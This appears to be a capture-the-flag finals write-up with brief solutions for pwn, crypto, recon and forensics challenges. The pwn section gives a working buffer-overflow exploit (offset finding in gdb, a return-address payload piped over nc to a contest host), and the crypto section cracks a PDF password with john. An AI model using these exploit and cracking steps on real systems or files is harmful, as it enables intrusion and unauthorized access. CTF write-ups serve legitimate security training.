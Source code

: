 # Finals

## pwn

### toomuch

Buffer overflow vulnerability in toomuch.c

```c
scanf("%s", buffer);
```

```bash
msf-pattern_create -l 64 > input
gdb toomuch
# break *main+202 (breaking at ret)
# r < input
# x/10xg $rsp (see address at top of stack)
```

![](res/img/ss2.png)

```bash
msf-pattern_offset -l 46 -q msf-pattern_offset -l 64 -q 0x3562413462413362
# [*] Exact match at offset 40
objdump -d toomuch | grep "win"
#
python -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\xd5\x11\x40" + b"\x00"*5)' | ./toomuch
cat <(python -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\xd5\x11\x40" + b"\x00"*5)') - | nc host3.metaproblems.com 7080
```

## crypto

### 1040

```bash
# Use kali
pdf2john 1040.pdf > hash.txt
# crack 4 digit password
john hash.txt --mask='?d?d?d?d'
```

## recon

<https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=232&cHash=c5bf79590657e32554c6683296a8e8aa>

base score is `7.8,AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H` from above link

use chatgpt to get manual calculation code

```txt title="chatgpt"
AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H

how to use the cvss3.1 base score formula
I want to do the calculation manually in python
```

remove the roundup at the end

## forensics

### Eventful filesystem

Use [FSevents](https://github.com/dlcowen/FSEventsParser) parser and then grep
for flag


```
python2 FSEParser_V4.0.py -s System/Volumes/Data/.fseventsd -t folder -o output
grep -R "flag" output/FSE_Reports/
```

![](./res/img/ss1.png)
